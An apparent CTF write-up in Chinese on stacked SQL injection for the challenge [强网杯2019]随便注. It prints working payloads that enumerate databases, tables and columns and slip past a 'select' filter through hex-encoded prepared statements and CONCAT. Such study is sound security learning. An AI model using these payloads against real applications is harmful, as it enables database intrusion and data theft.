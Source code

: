 ```yaml
---
title: 随便注|blacklist => 的一些知识
id: 随便注和blacklist
date: 2021-03-09 17:33:28
sidebar_position: 4
---
```




## 前言

最近刷题刷到 [强网杯2019]随便注 和 [GYCTF2020]Blacklist；
加深了一点对堆叠注入的理解，也了解到一些相关waf的简单bypass
算是对之前sqli学习的一些补充吧；后续也要对mysql进行深入的学习才行（毕竟这学期也有这门课程--）

## [强网杯2019]随便注

![](https://i.loli.net/2021/03/09/753fzuyAcqHebMO.png)

```mysql
堆叠注入：
1'; show databases;#	//库名
1'; show tables;#		//表名
1'; show columns from `1919810931114514`;# 	//字段；表名为数字时，要用反引号包起来查询。
```



### 解法1

预处理

select被过滤了，所以先将

```mysql
select * from ` 1919810931114514 `
```

进行16进制编码

再通过构造payload进而得到flag

```mysql
//1:利用预处理语句会进行编码转换，将sql语句转为十六进制
-1';
SeT @a = 0x73656c656374202a2066726f6d20603139313938313039333131313435313460;	
prepare execsql from @a;			
execute execsql;			

# set：设置变量名和值
# prepare…from…：预处理语句，会进行编码转换；且prepare用于预备一个语句，并赋予名称，之后可以引用该语句
# execute：执行由SQLPrepare创建的SQL语句
# ps：SELECT 可以在一条语句里对多个变量同时赋值,而 SET 只能一次对一个变量赋值

//2：利用concat()也可以0-0
-1';
Set @a = CONCAT('se','lect * from `1919810931114514`;');
prepare execsql from @a;
execute execsql;
```
